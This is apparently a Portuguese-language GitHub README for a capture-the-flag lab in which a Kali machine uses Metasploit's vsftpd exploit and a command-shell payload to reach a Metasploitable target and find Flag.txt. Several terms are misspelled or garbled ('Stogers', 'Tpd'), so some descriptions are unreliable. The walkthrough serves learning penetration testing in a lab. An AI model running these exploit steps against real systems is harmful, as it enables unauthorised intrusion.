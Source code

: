 # Acesso_Remoto_A_Metasploit
Acessando remotamente uma máquina Metasploit (capture the flag)

Ferramentas do Metasploit
msfconsole; Console de modo.
msfweb; Interface gráfica via navegador.
msfpayload; Gerar e personalizar cargas úteis.
msfcli; Interface de automatização de invasão.
msflogdump; Exibirá as sessões de arquivos abertos.

Cargas úteis
Módulos para explorar, sendo de três tipos.

Single: Apenas um pacote enviado sem conexão com o atacante.
Stogers: Forma uma conexão entre o atacante e o atacado.
Stoges: Insira o módulo de ação.

Meterpreter
Ou meta-interpreter, é um payload que funciona por injeção de dll.
O MeterPreter reside na memória do hospedeiro e não deixa vestígios no disco rígido.

Acessando a máquina MSF
Desafio: Encontrar o arquivo Flag.txt apartir de outra máquina.

Na Máquina Kali acessamos o Metasplo.

msfconsole;

Procuraremos pelo Tpd de nossa máquinha alvo, uma versão antiga e vulnerável, porém ainda muito utilizada.

search vsTpd;

Configurando o IP de destino.

show options;
set RHOST + IP da máquina alvo;
Para verificar o endereço de IP
ip addr;

Configurando os Payloads.

show payloads;
set payload payload/cmd/unix/interact;

Iniciando a aplicação.

exploit;

![Metasploit](https://github.com/IsaelCampos/Acesso_Remoto_A_Metasploit/assets/149100120/097c2198-856b-4635-9d50-03debf9b0534)

